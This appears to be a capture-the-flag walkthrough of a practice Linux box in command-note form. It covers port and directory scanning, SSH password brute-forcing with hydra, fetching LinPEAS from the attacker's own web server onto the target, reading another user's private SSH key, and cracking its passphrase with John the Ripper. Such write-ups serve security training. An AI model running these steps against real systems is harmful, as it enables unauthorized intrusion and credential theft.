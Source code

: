 10.10.162.125


###### open vpn

```
$ sudo openvpn Desktop/pelapels.ovpn
```

###### ping

```
$ ping 10.10.159.226
```


###### nmap scan
```
$ sudo nmap -sC -sV 10.10.159.226
```

                                                                                                                                                                                         
###### search for directories
```
$ ffuf -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -u http://10.10.159.226/FUZZ -fw 22
```

###### simple enumeration using enum4linux
```
$ enum4linux -a 10.10.159.226
```


###### bruteforcing password for user jan using hydra

```                                           
$ hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.162.125 -V
```

###### login to user through ssh
```
$ ssh jan@10.10.162.125
```

###### maghhost ng file para madownload ng machine yung LinPEAS
```
$ python -m http.server 8001
```

###### change directory to /dev/shm/ for us to be able to write
```
jan@basic2:~$ cd /dev/shm/
```

###### download LinPEAS
```
jan@basic2:/dev/shm$ wget http://10.18.69.128:8001/linpeas.sh 
```

###### make LinPEAS executable by running the command:
```
jan@basic2:/dev/shm$ chmod +x linpeas.sh
```

###### run LinPEAS 
```
jan@basic2:/dev/shm$ ./linpeas.sh
```

###### found possible private SSH keys 
/home/kay/ .ssh/id_rsa

###### change directory to /home/kay
```
jan@basic2:/dev/shm$ cd /home/kay
```

###### list files
```
jan@basic2:/home/kay$ ls
```

found pass.bak

###### list permission of the files and directories / hidden files
```
jan@basic2:/home/kay$ ls -la
```

###### change directory to .ssh/
```
jan@basic2:/home/kay$ cd .ssh/
```

###### list files
```
jan@basic2:/home/kay/.ssh$ ls
```

###### found id_rsa

###### cat id_rsa
```
jan@basic2:/home/kay/.ssh$ cat id_rsa
```

###### save ssh key
```
$ mousepad kay_id_rsa
```


###### run the ssh2john script, and write the results of it into a file:
```
ssh2john kay_id_rsa > kay_hash
```

###### crack ssh private key with john the ripper
```
$ john --wordlist=/usr/share/wordlists/rockyou.txt kay_hash
```


###### chmod 
```
$ chmod 600 kay_id_rsa
```

###### ssh to user kay using the passphrase
```
ssh -i kay_id_rsa kay@10.10.162.125
```

###### list down files
```
kay@basic2:~$ ls
```

###### print pass.bak
```
kay@basic2:~$ cat pass.bak
```













